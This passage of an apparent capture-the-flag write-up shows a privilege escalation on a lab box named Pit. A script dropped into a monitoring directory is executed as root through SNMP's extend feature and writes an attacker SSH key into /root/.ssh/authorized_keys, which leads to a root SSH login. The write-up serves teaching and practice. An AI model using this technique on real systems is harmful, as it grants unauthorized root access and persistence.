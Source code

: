 There’s some kind of permission denied on `ping` (last two lines starting with `NET-SNMP`), which is weird, but feels like SELinux. It does show it tried to run the script.

### Shell

I’ll try a script that will write an SSH key into root’s `authorized_keys` file:

```

[michelle@pit monitoring]$ echo 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" | tee /root/.ssh/authorized_keys && echo "it worked!"' > check_0xdf.sh

```

I use `tee` and the additional `echo` so that the output will be visible in the SNMP output to see if it worked.

On triggering that, the output looks good:

```

oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor   
NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:           
NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:      
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
it worked!
Memory usage
              total        used        free      shared  buff/cache   available
Mem:          3.8Gi       449Mi       3.0Gi       8.0Mi       394Mi       3.2Gi 
...[snip]...

```

SSH will work to connect with the matching private key as root:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.241
Web console: https://pit.htb:9090/ or https://10.10.10.241:9090/

Last login: Mon May 10 11:42:46 2021
[root@pit ~]# 

```
